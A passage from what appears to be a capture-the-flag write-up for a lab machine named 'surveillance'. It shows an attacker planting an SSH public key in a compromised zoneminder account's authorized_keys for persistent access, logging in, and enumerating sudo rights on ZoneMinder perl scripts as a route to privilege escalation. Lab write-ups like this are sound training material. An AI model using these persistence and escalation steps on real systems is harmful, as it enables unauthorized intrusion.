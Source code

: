 On target host we create .ssh directory and add key to `authorized_keys`.

```
zoneminder@surveillance:~$ pwd
pwd
/home/zoneminder
zoneminder@surveillance:~$ mkdir .ssh
mkdir .ssh
zoneminder@surveillance:~$ chmod 700 .ssh
chmod 700 .ssh
zoneminder@surveillance:~$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH93lXrXAivIx0OHDfLIlgqfY+9re3meTi4rXqPaVgfK' > ~/.ssh/authorized_keys
<IlgqfY+9re3meTi4rXqPaVgfK' > ~/.ssh/authorized_keys
zoneminder@surveillance:~$
```

Back to the local machine and we can now ssh to the target host as zoneminder.

```shell
labadmin@labmachine:~/surveillance$ ssh -i ./id_ed25519 zoneminder@10.10.11.245
[OMITTED]
zoneminder@surveillance:~$ id
uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)
zoneminder@surveillance:~$
```

## Privilege Escalation

Checking sudo permissions we find out that we can execute any of the zm scripts.

```shell
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo -l
sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
zoneminder@surveillance:/usr/share/zoneminder/www$
```

They are perl scripts and we find them under `/usr/bin/zm*.pl`.

```shell
zoneminder@surveillance:~$ ls -la /usr/bin/zm*.pl
-rwxr-xr-x 1 root root 43027 Nov 23  2022 /usr/bin/zmaudit.pl
-rwxr-xr-x 1 root root 12939 Nov 23  2022 /usr/bin/zmcamtool.pl
-rwxr-xr-x 1 root root  6043 Nov 23  2022 /usr/bin/zmcontrol.pl
-rwxr-xr-x 1 root root 26232 Nov 23  2022 /usr/bin/zmdc.pl
-rwxr-xr-x 1 root root 35206 Nov 23  2022 /usr/bin/zmfilter.pl
-rwxr-xr-x 1 root root  5640 Nov 23  2022 /usr/bin/zmonvif-probe.pl
-rwxr-xr-x 1 root root 19386 Nov 23  2022 /usr/bin/zmonvif-trigger.pl
-rwxr-xr-x 1 root root 13994 Nov 23  2022 /usr/bin/zmpkg.pl
-rwxr-xr-x 1 root root 17492 Nov 23  2022 /usr/bin/zmrecover.pl
-rwxr-xr-x 1 root root  4815 Nov 23  2022 /usr/bin/zmstats.pl
-rwxr-xr-x 1 root root  2133 Nov 23  2022 /usr/bin/zmsystemctl.pl
-rwxr-xr-x 1 root root 13111 Nov 23  2022 /usr/bin/zmtelemetry.pl
-rwxr-xr-x 1 root root  5340 Nov 23  2022 /usr/bin/zmtrack.pl
-rwxr-xr-x 1 root root 18482 Nov 23  2022 /usr/bin/zmtrigger.pl
-rwxr-xr-x 1 root root 45421 Nov 23  2022 /usr/bin/zmupdate.pl
-rwxr-xr-x 1 root root  8205 Nov 23  2022 /usr/bin/zmvideo.pl
-rwxr-xr-x 1 root root  7022 Nov 23  2022 /usr/bin/zmwatch.pl
-rwxr-xr-x 1 root root 19655 Nov 23  2022 /usr/bin/zmx10.pl
```
